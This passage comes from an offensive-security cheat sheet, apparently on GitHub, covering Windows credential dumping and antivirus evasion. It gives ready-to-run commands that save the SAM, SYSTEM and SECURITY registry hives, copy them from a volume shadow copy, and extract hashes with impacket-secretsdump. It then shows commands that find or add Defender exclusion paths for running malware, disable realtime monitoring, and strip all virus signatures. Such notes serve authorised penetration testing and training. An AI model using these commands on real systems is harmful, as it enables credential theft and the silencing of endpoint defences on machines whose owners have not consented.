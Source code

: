 ```powershell
reg.exe save hklm\sam c:\users\public\downloads\sam.save
reg.exe save hklm\system c:\users\public\downloads\system.save
reg.exe save hklm\security c:\users\public\downloads\security.save
```

Then on our attacking box we can dump the secrets with Impacket:

```bash
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL > secrets.out
```

#### Dumping secrets from a Volume Shadow Copy

We can also create a "Volume Shadow Copy" of the `SAM` and `SYSTEM` files (which are always locked on the current system), so we can still copy them over to our local system. An elevated prompt is required for this.

```powershell
wmic shadowcopy call create Volume='C:\'
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\public\sam.save
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\public\system.save
```

### Windows Defender evasion

*Note: All below commands require administrative privileges on the system!*

You can query Defender exclusions using PowerShell. If it returns any excluded paths, just execute your malware from there!

```powershell
Get-MpPreference | select-object -ExpandProperty ExclusionPath
```
Alternatively, you could add an exclusion directory for your shady stuff. 👀

```powershell
Add-MpPreference -ExclusionPath "C:\Users\Public\Downloads\SuperLegitDownloadDirectory"
```

If you're more aggro, you can disable Defender entirely. It goes without saying that disabling AV/EDR products is never a good idea in practice, best to work around it instead. 🚩

```powershell
# Disable realtime monitoring altogether
Set-MpPreference -DisableRealtimeMonitoring $true

# Only disables scanning for downloaded files or attachments
Set-MpPreference -DisableIOAVProtection $true
```

As an alternative to disabling Defender, you can leave it enabled and just remove all virus signatures from it.

```powershell
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```
